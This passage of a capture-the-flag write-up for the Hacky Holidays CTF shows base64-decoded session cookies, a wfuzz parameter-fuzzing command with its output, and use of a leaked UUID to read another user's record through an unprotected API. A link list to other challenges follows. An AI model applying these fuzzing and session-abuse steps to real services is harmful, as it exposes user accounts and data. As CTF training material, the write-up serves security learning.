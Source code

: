```
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJNRE00WXpoaU4yUTNNbVkwWWpVMk0yRmtabUZsTkRNd01USTVNakV5T0RobE5HRmtNbUk1T1RjeU1EbGtOVEpoWlRjNFlqVXhaakl6TjJRNE5tUmpOamcyTm1VMU16VmxPV0V6T1RFNU5XWXlPVGN3Tm1KbFpESXlORGd5TVRBNVpEQTFPVGxpTVRZeU5EY3pOakZrWm1VME1UZ3hZV0V3TURVMVpXTmhOelE9In0=",
"eyJ1c2VyIjpudWxsLCJjb29raWUiOiJPR0kzTjJFeE9HVmpOek0xWldWbU5UazJaak5rWmpJd00yWmpZemRqTVdOaE9EZzRORGhoT0RSbU5qSTBORFJqWlRkbFpUZzBaVFV3TnpabVpEZGtZVEpqTjJJeU9EWTVZamN4Wm1JNVpHUmlZVGd6WmpoaVpEVmlPV1pqTVRWbFpEZ3pNVEJrTnpObU9ESTBPVE01WkRNM1kySmpabVk0TnpFeU9HRTNOVE09In0="
]}
```
I got base64 encoded sessions, so I have decoded and got user
```"{"user":null,"cookie":"YzVmNTJiYTNkOWFlYTY2YjA1ZTY1NDBlNmI0YmZjMmNmZGYzMzg1MWJkZDcyMzY0ZTFlYjdmNDY3NDkzNzIwMGNiZjNhMjQ3Y2RmY2E2N2FmMzdjM2I0ZWNlZTVkM2VkNzU3MTUwYjdkYzkyNWI4Y2I3ZWZiNjk2N2NjOTk0MjU="}",
"{"user":null,"cookie":"ZjM2MzNjM2JkZGUyMzVmMmY2ZjcxNjdlNDNmZjQwZTlmY2RhNjYxNWM5Y2Y1ZjY2ODU3NjkxMTQ2Nzk0ZmIxOWZhN2ZhZjg0Y2E5Nzk1NTQ2MzMzZTc0MWJlMzVhZDA0MDUwYmQ3NDlmZTE4MmNkMjMxMzU0MWRlMTJhNWYzOGQ="}",
"{"user":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043","cookie":"NDU0ODI5MmY3ZDY2MjRiMWE0MmY3NGQxMWE0ODMxMzg2MGE1YWRhMTc0YjhkYWE3MzU1MjZjNDg5MDQ2Y2JhYjY3YTFhY2Q3YjBmYTk4N2Q5ZWQ5MWQ5OWFkNWE2MjIyZmZjMzZjMDQ3ODk5ZmI4ZjZjOWU0OGJhMjIwNmVkMTY="}",
"{"user":null,"cookie":"MDRmYTBhN2FiNjY5MGFlOWFmYTE4ZjE2N2JjZmYzZWJkOTRlOGYwMjI1OGIyNjM1ODU0Njc2YTdlZTM4MzFiM2I1MTUzMzViMjFhYzVkMTc4ODE3OGM4Y2JlOTk4MjJlMDI2YjQzZDQxMGNmNTg1ODQxZjBmODBmZWQxZmE1YmE="}",
"{"user":null,"cookie":"M2Q2MDIzNDg5MWE0N2M3NDJmNTIyNGM3NWUxYWQ0NDRlZWI3MTg4MjI3ZGRkMTllZTM2ZDkxMGVlNWEwNmZiZWFkZjZhODg4MDY3ODlmZGRhYTM1Y2IyMGVhMjA1NjdiNDFjYzBhMWQ4NDU1MDc4NDE1YmI5YTJjODBkMjFmN2Y="}",
"{"user":null,"cookie":"MWY3MTAzMTBjZGY4ZGMwYjI3Zjk2ZmYzMWJlMWEyZTg1YzE0MmZlZjMwYmJjZmQ4ZTU0Y2YxYzVmZTM1N2Q1ODY2YjFkZmFiNmI5ZjI1M2M2MDViNjA0ZjFjNDVkNTQ4N2U2ODdiNTJlMmFiMTExODA4MjU2MzkxZWNhNjFkNmU="}",
"{"user":null,"cookie":"MDM4YzhiN2Q3MmY0YjU2M2FkZmFlNDMwMTI5MjEyODhlNGFkMmI5OTcyMDlkNTJhZTc4YjUxZjIzN2Q4NmRjNjg2NmU1MzVlOWEzOTE5NWYyOTcwNmJlZDIyNDgyMTA5ZDA1OTliMTYyNDczNjFkZmU0MTgxYWEwMDU1ZWNhNzQ="}",
"{"user":null,"cookie":"OGI3N2ExOGVjNzM1ZWVmNTk2ZjNkZjIwM2ZjYzdjMWNhODg4NDhhODRmNjI0NDRjZTdlZTg0ZTUwNzZmZDdkYTJjN2IyODY5YjcxZmI5ZGRiYTgzZjhiZDViOWZjMTVlZDgzMTBkNzNmODI0OTM5ZDM3Y2JjZmY4NzEyOGE3NTM="}"
```
I also had an  endpoint as `/api/user` so I browsed that ( `/swag-shop/api/user` ) and got an error saying `{"error":"Missing required fields"}`
I was missing some parameter like `/swag-shop/api/user?parameter=value`, using wfuzz to find parameters.
```
┌─[shubham@parrot]─[~]
└──╼ $wfuzz -u https://hackyholidays.h1ctf.com/swag-shop/api/user?FUZZ=value -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt --hw 3
********************************************************
* Wfuzz 3.0.1 - The Web Fuzzer                         *
********************************************************
Target: https://hackyholidays.h1ctf.com/swag-shop/api/user?FUZZ=value
Total requests: 2588
===================================================================
ID           Response   Lines    Word     Chars       Payload                                                                              
===================================================================
000001359:   404        0 L      5 W      40 Ch       "uuid"                                                                               
Total time: 0
Processed Requests: 2588
Filtered Requests: 2587
Requests/sec.: 0
┌─[shubham@parrot]─[~]
└──╼ $
```
`--hw 3` to filter out results containing above errors. I found an valid parameter `uuid` and recently got a valid username. Using that and browsing [/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043][7] and got the flag and details of grinch.
[7]: https://hackyholidays.h1ctf.com/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043    "/swag-shop/api/user?uuid=C7DCCE-0E0DAB-B20226-FC92EA-1B9043"
```
{
 "uuid":"C7DCCE-0E0DAB-B20226-FC92EA-1B9043",
"username":"grinch",
```

[1]: https://hackerone.com/h1-ctf         "https://hackerone.com/h1-ctf"
[2]: https://hackyholidays.h1ctf.com/robots.txt       "https://hackyholidays.h1ctf.com/robots.txt"
[3]: https://hackyholidays.h1ctf.com/s3cr3t-ar3a "https://hackyholidays.h1ctf.com/s3cr3t-ar3a"
[5]: https://hackyholidays.h1ctf.com/swag-shop     "https://hackyholidays.h1ctf.com/swag-shop"
[6]: https://hackyholidays.h1ctf.com/swag-shop/api/sessions             "https://hackyholidays.h1ctf.com/swag-shop/api/sessions"
[8]: https://hackyholidays.h1ctf.com/secure-login          "https://hackyholidays.h1ctf.com/secure-login"
[8]: https://hackyholidays.h1ctf.com/my-diary/         "https://hackyholidays.h1ctf.com/my-diary/"
[9]: https://hackyholidays.h1ctf.com/my-diary/?template=index.php       "index.php"
[10]: https://hackyholidays.h1ctf.com/my-diary/?template=secretasecretaadmin.phpdmin.phpdmin.php    "https://hackyholidays.h1ctf.com/my-diary/?template=secretasecretaadmin.phpdmin.phpdmin.php"
[11]: https://hackyholidays.h1ctf.com/hate-mail-generator   "https://hackyholidays.h1ctf.com/hate-mail-generator"
[12]: https://hackyholidays.h1ctf.com/hate-mail-generator/templates/      "https://hackyholidays.h1ctf.com/hate-mail-generator/templates/"
[14]: https://github.com/Grinch-Networks/forum                 "https://github.com/Grinch-Networks/forum"
[13]: https://hackyholidays.h1ctf.com/forum              "https://hackyholidays.h1ctf.com/forum"
[15]:  https://hackyholidays.h1ctf.com/forum/phpmyadmin    "phpmyadmin"
[16]: https://hashes.org/search.php       "hashes.org"
[17]: https://hackyholidays.h1ctf.com/forum/login          "login"
[18]: https://hackyholidays.h1ctf.com/evil-quiz           "https://hackyholidays.h1ctf.com/evil-quiz"
[19]: https://pentest.blog/exploiting-second-order-sqli-flaws-by-using-burp-custom-sqlmap-tamper/   "this"
[20]: https://hackyholidays.h1ctf.com/evil-quiz/admin       "admin"
[21]: https://hackyholidays.h1ctf.com/signup-manager/         "https://hackyholidays.h1ctf.com/signup-manager/"
[22]: https://hackyholidays.h1ctf.com/signup-manager/README.md   "https://hackyholidays.h1ctf.com/signup-manager/README.md"
[23]: https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip     "https://hackyholidays.h1ctf.com/signup-manager/signupmanager.zip" 
[24]: https://www.php.net/manual/en/function.is-numeric.php        "here"
[25]: https://www.php.net/manual/en/language.types.float.php      "number"
[26]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59            "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59"
[27]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api       "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api"
[28]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k    "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album?hash=jdh34k"
[29]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/uploads/13d74554c30e1069714a5a9edda8c94d.jpg "https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/uploads/13d74554c30e1069714a5a9edda8c94d.jpg"
[30]: https://captnemo.in/blog/2012/06/09/nested-sql-injections/   "Here"
[31]: https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/api      "api"
[32]: https://github.blog/2015-11-03-like-injection/      "like"
[32]: https://hackyholidays.h1ctf.com/attack-box/login     "attack-box"
[33]: https://en.wikipedia.org/wiki/DNS_rebinding   "DNS-rebinding"
[34]: https://github.com/taviso/rbndr    "https://github.com/taviso/rbndr"